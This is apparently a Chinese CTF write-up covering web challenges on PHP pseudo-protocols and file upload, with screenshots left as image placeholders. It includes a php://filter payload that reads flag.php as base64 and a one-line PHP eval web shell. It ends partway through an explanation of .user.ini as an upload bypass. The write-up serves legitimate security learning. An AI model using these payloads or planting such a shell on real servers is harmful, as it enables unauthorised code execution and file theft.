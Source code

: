 file1=flag.php

成功回显

![image-20240320224836190](D:\文档\ctf\assets\image-20240320224836190.png)

说明input伪协议是可以用的

接下来使用filter来读取flag.php文件

```php
file1=php://filter/read=convert.base64-encode/resource=flag.php
```

![image-20240320230736612](D:\文档\ctf\assets\image-20240320230736612.png)

base64解码

![image-20240320230837457](D:\文档\ctf\assets\image-20240320230837457.png)

##### 总结：php伪协议



#### get_post

![image-20240320231148706](D:\文档\ctf\assets\image-20240320231148706.png)

![image-20240320231128727](D:\文档\ctf\assets\image-20240320231128727.png)



#### easyupload

经过尝试，只能上传图片文件，只修改jpg后缀没用，并且在图片文件中插入木马也没用，php被过滤掉了

上传正常图片文件，插入缩减版木马

```php
<?= eval($_POST[1]);?>
```

可以上传，但不能用蚁剑读取

![image-20240323152643916](D:\文档\ctf\assets\image-20240323152643916.png)

抓包发现，实际上是把文件内容读取进http数据包，并且Content-Type:为image/png

![image-20240323152729463](D:\文档\ctf\assets\image-20240323152729463.png)



查看题解，利用到.user.ini文件

##### .user.ini

`.user.ini` 是 PHP 中的一个配置文件，它允许用户在特定目录下自定义 PHP 的配置选项。这个文件可以包含各种 PHP 配置指令，用来覆盖全局的 PHP 配置。在一个 PHP 应用程序的目录中放置一个 `user.ini` 文件，可以让你在这个应用程序中自定义一些 PHP 的配置，而不会影响到其他应用程序或全局 PHP 配置。

`.user.ini` 文件只对其所在目录及其子目录中的 PHP 文件生效。
